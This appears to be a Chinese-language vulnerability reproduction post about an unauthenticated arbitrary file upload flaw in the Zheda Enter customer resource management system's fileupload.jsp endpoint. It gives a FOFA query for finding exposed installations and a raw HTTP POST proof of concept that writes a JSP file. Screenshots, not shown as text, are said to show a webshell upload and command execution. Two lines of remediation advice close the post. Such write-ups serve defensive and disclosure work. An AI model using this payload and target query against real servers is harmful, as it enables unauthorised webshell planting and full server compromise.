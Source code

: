 
# 浙大恩特客户资源管理系统任意文件上传漏洞复现

### 0x01 产品简介

     浙大恩特[客户资源管理](https://so.csdn.net/so/search?q=%E5%AE%A2%E6%88%B7%E8%B5%84%E6%BA%90%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)系统是一款针对企业客户资源管理的软件产品。该系统旨在帮助企业高效地管理和利用客户资源，提升销售和市场营销的效果。

### 0x02 漏洞概述

  浙大恩特客户资源管理系统中 fileupload.jsp 接口处存在[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以上传任意后门文件，最终可导致服务器失陷。

### 0x03 复现环境

FOFA：app="浙大恩特客户资源管理系统"

![](assets/1699929273-bcd76752e4891c6c2630e6ff06382bb5.png)

### 0x04 漏洞复现 

PoC

```http
POST /entsoft_en/entereditor/jsp/fileupload.jsp?filename=1.jsp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Content-Type: application/x-www-form-urlencoded
Connection: close
Accept-Encoding: gzip, deflate

123
```

![](assets/1699929273-b71ce3998d997a1ea55c71b60aa4ebda.png)

回显了上传路径 

验证

![](assets/1699929273-32c25ae7394720814b1b7bf8656da49c.png)

上传马子

![](assets/1699929273-b2d0a0820efeb4b33e85ace962673bc6.png)

命令执行 

### ![](assets/1699929273-588167ef90e58a3abfadae7a8a3d60e9.png) 0x05 修复建议 

关闭互联网暴露面或设置接口访问权限

 升级至安全版本
